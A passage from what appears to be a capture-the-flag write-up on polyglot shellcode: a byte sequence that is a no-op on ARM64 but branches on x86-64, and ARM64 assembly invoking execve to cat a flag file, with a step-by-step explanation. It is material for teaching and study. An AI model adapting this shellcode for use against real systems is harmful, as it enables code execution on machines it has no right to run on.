 

#### Don't forget the polymorphic branch!

Of-course, we can't forget the polymorphic branch we must insert, at a specific offset inside our ARM64 shellcode. It will be no-op in our code, but in x86 will branch to the x86 shellcode.

```assembly
# This is NOP in aarch64, but jumps ahead in x86_64
x86_branch_opcode:
    .byte 0x72
    .byte 0x60
    .byte 0x7e
    .byte 0x51
```



#### Unpacked ARM64 shellcode

So, we have a working unpacker! What ARM64 shellcode should we unpack and execute? Remember - this shellcode is without any constraints on the values of the bytes! We wrote a simple ARM64 shellcode that practically runs `execve("/bin/cat", {"/bin/cat", "flag", NULL}, NULL)`, and optimized its size a bit:

```assembly
_start:
    mov     x8, 221     /* __NR_execve */
adr_bin_cat_addr:
    adr     x0, adr_bin_cat_addr+156    
    adr     x1, pointer_array+0x100
    mov     x2, #0
    adr     x5, flag
    stp     x0, x5, [x1, #0]
    svc     #0

flag:
    .asciz "flag"
    
pointer_array:
```

What is happening here?

* We put `__NR_execve` in X8 (according to the [ARM64 syscall calling convention](https://man7.org/linux/man-pages/man2/syscall.2.html)).
* We put `"/bin/cat"` string in X0. Notice we use a trick here: in the last 8 bytes of the whole cobmined shellcode (including the x86-64 one), we put the string "/bin/cat". Because the whole page is full of zero bytes before copying the shellcode, the string will be null-terminated by the 281th byte in the page.
  We will use the `"/bin/cat"` string in both shellcodes, thus saving at least 8 bytes in the whole shellcode overall.
* We create the `{"/bin/cat", "flag", NULL}` array and put it in X1. Again, we rely on the fact that all the bytes after the ending of our shellcode are zeros. So we just put in memory the pointers to `"/bin/cat"` and  `"flag"` (using `STP`), and the final `NULL` pointer is already there.
* We null X2 (this is the `env`).
* Finally, we invoke the `execve` syscall using `svc #0`.
